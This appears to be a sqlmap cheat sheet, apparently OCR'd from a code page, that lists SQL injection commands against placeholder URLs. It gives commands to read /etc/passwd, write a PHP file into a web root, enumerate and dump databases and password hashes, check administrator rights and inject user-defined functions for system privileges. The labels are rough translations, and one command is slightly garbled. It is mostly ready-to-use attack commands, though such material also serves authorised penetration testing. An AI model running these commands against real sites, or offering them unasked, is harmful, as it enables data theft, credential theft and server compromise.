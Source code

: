 **file-read read web file**
```
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2
```

**file-write writes files to the web**
```
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file-dest /var/www/html/xx.php -v 2
```

**union Query table record**
```
sqlmap -u "http://url/news?id=1" --union-cols 
```

**Get the current user name**
```
sqlmap -u "http://url/news?id=1" --current-user
```

**Get the current database name**
```
sqlmap -u "http://www.xxoo.com/news?id=1" --current-db 
```

**listname**
```
sqlmap -u "http://www.xxoo.com/news?id=1" --tables -D "db_name" 
```

**column field**
```
sqlmap -u "http://url/news?id=1" --columns -T "tablename" users-D "db_name" -v 0 
```

**Get the field contents**
```
sqlmap -u "http://url/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0
```

**smart smart level Execution test level**
```
sqlmap -u "http://url/news?id=1" --smart --level 3 --users
```

**dbms specify database type**
```
sqlmap -u "http://url/news?id=1" --dbms "Mysql" --users
```

**column database user**
```
sqlmap -u "http://url/news?id=1" --users
```

**Access to information**
```
sqlmap -u "http://url/news?id=1" --dbms "Mysql" --users		# dbms specify database type
sqlmap -u "http://url/news?id=1" --users 					#column database user
sqlmap -u "http://url/news?id=1" --dbs						#column database
sqlmap -u "http://url/news?id=1" --passwords				#database user password
sqlmap -u "http://url/news?id=1" --passwords -U root -v 0   #list the password of the specified user database
sqlmap -u "http://url/news?id=1" --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20  #list designation Field, list 20
sqlmap -u "http://url/news?id=1" --dump-all -v 0 			#List all tables in all databases
sqlmap -u "http://url/news?id=1" --privileges 				#View Permissions
sqlmap -u "http://url/news?id=1" --privileges -U root		#View specified user permissions
sqlmap -u "http://url/news?id=1" --is-dba -v 1 				#is it a database administrator?
sqlmap -u "http://url/news?id=1" --roles 					#enumrate database user roles
sqlmap -u "http://url/news?id=1" --udf-inject 				#Import user-defined functions (get system privileges!)
```